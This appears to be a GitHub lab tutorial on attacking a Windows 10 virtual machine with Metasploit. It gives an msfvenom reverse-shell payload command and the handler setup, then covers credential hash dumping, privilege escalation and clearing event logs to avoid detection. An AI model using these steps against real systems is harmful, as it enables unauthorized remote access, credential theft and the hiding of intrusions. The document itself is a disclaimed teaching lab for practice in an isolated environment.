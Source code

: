 <h1>Metasploit Penetration Test Lab</h1>
<img src=""/>
<p>In this lab, we utilize the Metasploit framework to exploit a vulnerable virtual machine to simulate a penetration test.</p>
<h2>Resources Used: </h2>
<p>- Kali Linux</p>
<p>- Metasploit</p>
<p>- Windows 10</p>
<p>- VMware Workstation Player</p>

<h2>Please note: this is for demonstration purposes only in a lab environment. Do not conduct these actions on any machines without clear permission.</h2>

<h2>1. Setting up Virtual Machines</h2>
<p>- This lab will require a virtual machine that runs Kali Linux, and another virtual machine that requires Windows 10. </p>
<p>- Head to VMWorksation Player and install it according to your actual physical machine (PICTURE Here)</p>
<img src=""/>
<p>- Once installed, download a Kali Linux ISO & Windows 10 ISO. We will use these files to let our virtual machine have the necessary operating system. Before you install, double-check the hash of the ISO to verify that it hasn’t been modified by anyone else other than the manufacturer.</p>
<p>- Launch VMWorkstation Player, and select “New”</p>
<p>- You can keep all of the default settings, but make sure to choose the correct OS, ISO file, and to make the Network type be bridged. Selecting “bridged” will allow both virtual machines to be on the same LAN as your physical machine. (PICTURE HERE) </p>
<img src=""/>
<p>- Once the configuration is complete, select "Launch/Play" on the Windows 10 machine, and complete the setup prompts. </p>
<p>- Once the setup is complete, go to the firewall settings and select off for all. This will be what makes the machine vulnerable in this lab environment. If this was a real penetration test, the firewall would most likely be turned on and it would take much more time and effort to try to find a vulnerability to exploit and gain access to the machine. </p>
<p>- Go to the command prompt and type in “ipconfig /all” and hit enter. Take note of what this VM's IP Address is and make sure it’s on the same subnet as your physical machine. (PICTURE HERE)</p>
<img src=""/>
<p>Select Start to run the Kali Linux virtual machine. You can select all of the defaults for the setup prompts. </p>

<h2>2. Configuring Metasploit</h2>
<p>- In the Kali Linux VM, select the logo on the top left, then scroll down to where it says “Exploitation Tools”. Select Metasploit to launch the terminal. (PICTURE HERE)</p>
<img src=""/>
<p>- It will ask for the password from the account you made for the VM, once entered Metasploit will start running its configuration.</p>
<p>- From here, you can explore many different exploits, payloads, stagers, & commands by using the “help” or “search” commands</p>
<p>- For this lab, we will be using the exploit called “exploit/multi/handler” which can be used for many different exploits in Metasploit</p>
<p>- Before we use this exploit, we need to get our payload onto the target system that will allow our exploit to be conducted successfully. </p>
<p>- In the msfconsole, type “msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP of Kali Linux machine> LPORT=4444 -f exe > thisismalicious.exe” and hit enter.(PICTURE HERE)</p>
<img src=""/>
<p>- This command creates our payload into an executable file, which we will send over to the Windows 10 VM. </p>
<p>- In this lab environment, simply copy the file & paste it on the Windows 10 VM since the VM’s firewall/security protections are disabled. In a real penetration test, you most likely will not be able to do this. There are many options you can take, such as social engineering, sending a phishing email, etc.</p>
<p>- Once the executable is on the Windows 10 VM, go back to the Kali Linux terminal and enter “use exploit/multi/handler”. This will create a session in Metasploit and allow us to configure the exploit before running it.</p>
<p>- Enter “show options”, in which you will see that the exploit needs an LHOST, which will be the Kali Linux IP. The LHOST is the listener machine that receives communication from the executable file/vulnerable machine. </p>
<p>Enter “set LHOST <Kali Linux IP>”. Enter “show options" again to see the updated configuration. (PICTURE HERE) </p>
<img src=""/>

<h2>3. Exploiting the Vulnerable Windows 10 VM</h2>
<p>- Go back to the Windows VM and double-click the executable file</p>
<p>- On the Kali Linux terminal, enter “run”. You should see that the exploit has executed successfully and you are now in a meterpreter shell!
(PICTURE HERE)</p>
<img src=""/>

<h2>4. Using Meterpreter</h2>
<p>- Meterpreter can be used for a variety of functions in the post-exploitation realm of penetration testing. We can use meterpreter to create persistence, find other vulnerabilities within the victim machine, download sensitive files, etc.</p>
<p>- For now, we can background this session by selecting “ctrl + z” on the keyboard or by typing in “background”.</p>
<p>- Now that we have a session on the victim VM, we can use “post/multi/recon/local_exploit_suggester” (PICTURE HERE)</p>
<img src=""/>
<p>- Set the session to whatever the session number is listed, and then enter "run"</p>
<p>- Once complete, there are multiple exploits that Metasploit found that the victim VM may be vulnerable to. We can use one of these to accomplish tasks that could be beneficial to the penetration test. (PICTURE)</p>
<img src=""/>
<p>- If we go back to our session, we can run a variety of commands to get a lot of information from the VM. “Hashdump” can collect all of the password hashes so that we can brute force them offline for example. (PICTURE)</p>
<img src=""/>
<p>- Try “getsystem” in the meterpreter shell. If successful, this will escalate our account’s privileges to the highest access, Authority. This will allow us to execute almost anything we want on the Windows VM. You can check the status of the account with “getuid”. (PICTURE)</p>
<img src=""/>
<p>- Feel free to play around with the commands in meterpreter to see what it can accomplish. </p>
<p>- Once you have accomplished your tasks in the penetration test, you can even remove the logs of what you have done in Event Viewer to avoid detection. In the meterpreter shell, enter "clearev". You should see in Event Viewer that the logs are not appearing for what actions you have performed within the VM. (PICTURE) </p>
<img src=""/>
<p>- There is a lot more to Metasploit, but this is just a very basic overview of what this powerful tool can accomplish in the penetration testing environment!</p>
